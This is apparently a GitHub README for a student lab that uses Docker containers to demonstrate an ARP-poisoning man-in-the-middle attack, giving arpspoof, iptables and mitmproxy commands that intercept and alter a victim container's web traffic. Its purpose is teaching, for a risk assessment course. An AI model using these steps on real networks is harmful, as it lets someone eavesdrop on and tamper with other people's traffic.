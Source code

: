 # 🚀 Man-in-the-Middle (MitM) Attack Practice using Docker

A simple and lightweight demo showcasing a **Man-in-the-Middle (MitM)** attack via **ARP poisoning** using Docker containers. This demonstration is designed for quick setup, requiring only Docker and `docker-compose`. Everything else is handled by the container configurations.

🔒 **Purpose:**  
This practical example have been created to demonestrate _Man-in-the-Middle (MitM) attacke using ARP poisoning_ as part of **ICT Risk Assessment** Course examination.

---

## 🛠 Tools Used
- **Docker**
- **docker-compose**
- **mitmproxy**
- **arpspoof**

---

## 📦 Environment Setup
The demo involves three Docker containers connected through a Docker bridge network named `mitm`:

1. **Bob**: Hosts an HTTP server serving files from the `bob_files` directory.  
2. **Alice**: Runs Firefox in a container. Access it from the host at [http://localhost:5800](http://localhost:5800).  
3. **Eve**: The attacker container, used via bash. It has the `eve_files` folder mounted as `/olicyber` inside the container. 

---

## 🔧 How to Run

### 1. Set Up the Environment
1. Install **Docker** and **docker-compose**.
2. Start the containers:
   ```bash
   docker-compose up -d

### 2. Verify Initial Setup

- Open **Alice's Firefox** at [http://localhost:5800](http://localhost:5800) and visit [http://bob/](http://bob/).  
  You should see the website served by Bob's HTTP server.  

- Verify Bob's MAC address from Alice's shell:
   ```bash
   docker exec -it alice /bin/sh
   ip neighbor
### 3. Discover IP Addresses

- On Eve's container, open two bash instances:
   ```bash
   docker exec -it eve /bin/bash

- Run the dig command to get Alice's and Bob's IP addresses:
    ```bash
   dig alice
   dig bob

### 4. Perform ARP Spoofing

In the two bash instances on Eve's container, run the following commands:
- **Instance 1**:
   ```bash
   arpspoof -t <alice_ip> <bob_ip>
- **Instance 2**:
   ```bash
   arpspoof -t <bob_ip> <alice_ip>
- Check on Alice's shell that Bob's IP now maps to Eve's MAC address:
  ```bash
   ip neighbor
  
## 🔥 Simulating the Attack

### Step 1: Forward Traffic Through Eve
- Run the `add_iptables_rule.sh` script on Eve to forward traffic:
   ```bash
     /olicyber/add_iptables_rule.sh

- Verify that Alice's browser now shows an error when reloading the page. This occurs because packets are being intercepted by Eve but dropped since the proxy is inactive.

### Step 2: Activate the Proxy in Passive Mode

- Start the proxy in passive mode:
   ```bash
   mitmproxy -m transparent

- Reload the page in Alice's browser. The website will load normally, but Eve's mitmproxy instance will display the intercepted requests.

### Step 3: Modify the Webpage

- Restart the proxy with a custom script to alter the website content:
  
  ```bash
   mitmproxy -m transparent -s /olicyber/proxy.py
  
- Reload the browser page, and you'll see the altered website content.

## 🛑 Shutting Down

- Remove the iptables rule:
   ```bash
   /olicyber/del_iptables_rule.sh
   
- Stop the ARP spoofing processes in Eve's bash instances.
